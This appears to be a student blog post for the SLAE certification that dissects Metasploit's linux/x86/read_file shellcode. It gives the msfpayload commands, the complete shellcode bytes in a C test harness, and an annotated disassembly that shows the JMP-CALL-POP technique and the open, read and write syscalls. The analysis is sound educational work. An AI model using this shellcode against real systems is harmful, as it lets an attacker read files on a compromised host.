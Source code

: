 # Assignment #5: Metasploit read_file

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

## Solution

In this assignment we will take up the `linux/x86/read_file` shellcode from Metasploit, as generated by msfpayload. 

For this shellcode to work, we must provide it with a file name. For the purposes of this assignment, we will be reading the DNS configuration file `/etc/resolv.conf`. 


## Analysis

As always, let’s begin by trying to emulate the shellcode with Libemu to see if it can provide us with a nicely structured output of the execution logic. 

```
msfpayload linux/x86/read_file PATH=/etc/resolv.conf R | sctest -Svvvs 100000000000
```

But yet again, it appears to fail to determine the flow. So let’s go ahead and generate the shellcode in C format, append an execution skeleton to it, and run it to see what happens.

```bash
msfpayload linux/x86/read_file PATH=/etc/resolv.conf C > a5-msf_readfile.c
```

#### a5-msf_readfile.c

```c
#include<stdio.h>
#include<string.h>
/*
 * linux/x86/read_file - 78 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, PATH=/etc/resolv.conf, FD=1
 */
unsigned char code[] = \
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x65\x74\x63\x2f\x72\x65\x73\x6f\x6c\x76\x2e\x63\x6f"
"\x6e\x66\x00";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

```bash
gcc a5-msf_readfile.c -o a5-msf_readfile -fno-stack-protector -z execstack
```


Disassembling the shellcode with Ndisasm produces a very easy to understand instruction set that can be easily analyzed and understood directly, without the need of GDB. To help understand the instructions, the following C libraries were used

- `/usr/include/i386-linux-gnu/asm/unistd_32.h`
- `/usr/include/asm-generic/fcntl.h`

as well as the Intel Assembly Instruction Set manual

- `64-ia-32-architectures-software-developer-vol-2a-2b-instruction-set-a-z-manual.pdf`

The following is disassembled shellcode commented as part of the analysis:

```
msfpayload linux/x86/read_file PATH=/etc/resolv.conf  R | ndisasm -u -
```

```nasm
00000000  EB36              jmp short 0x38 					; go to stage
00000002  B805000000        mov eax,0x5 					; eax = #define __NR_open 5
00000007  5B                pop ebx 						; ebx = PAYLOAD address (pathname)
00000008  31C9              xor ecx,ecx 					; ecx =  (flags)	#define O_RDONLY        00000000
0000000A  CD80              int 0x80 						; int open(const char *pathname, int flags);
0000000C  89C3              mov ebx,eax 					; ebx = file descriptor (fd)
0000000E  B803000000        mov eax,0x3 					; eax = #define __NR_read 3
00000013  89E7              mov edi,esp 					; edi = top of stack 
00000015  89F9              mov ecx,edi 					; ecx = read into here (buf)
00000017  BA00100000        mov edx,0x1000 					; edx = 0x1000 [4096 bytes] (count)
0000001C  CD80              int 0x80 						; ssize_t read(int fd, void *buf, size_t count);
0000001E  89C2              mov edx,eax 					; edx = size of read data (count)
00000020  B804000000        mov eax,0x4 					; eax = #define __NR_write 4
00000025  BB01000000        mov ebx,0x1 					; ebx = 1 [stdout] (fd)
0000002A  CD80              int 0x80 						; ssize_t write(int fd, const void *buf, size_t count);
0000002C  B801000000        mov eax,0x1 					; eax = #define __NR_exit 1
00000031  BB00000000        mov ebx,0x0 					; ebx = 0 (status)
00000036  CD80              int 0x80 						; void exit(int status);
00000038  E8C5FFFFFF        call dword 0x2 					; put PAYLOAD address on the stack and begin execution

															; PAYLOAD = /etc/resolv.conf (null terminated)
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7265              jc 0xa9
00000044  736F              jnc 0xb5
00000046  6C                insb
00000047  762E              jna 0x77
00000049  636F6E            arpl [edi+0x6e],bp
0000004C  66                o16
0000004D  00                db 0x00
```


## Discussion and Conclusions

Our analysis has revealed how the Metasploit read_file shellcode operates.

This shellcode uses the JMP-CALL-POP technique to get the address of the payload, which in this case is the file name `/etc/resolv.conf`. It then proceeds to create a file descriptor to the file name with the `open()` system call; read 4096 bytes (1 memory page) from it with the `read()` system call; print read bytes to the stdout stream with the `write()` system call; and finally exit gracefully with the `exit()` system call.


## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-5/read_file/example.png "Example")

Note: while executing `a5-msf_readfile`, the reported shellcode length is 4. This is of course due to the presence of NULL bytes in the shellcode.
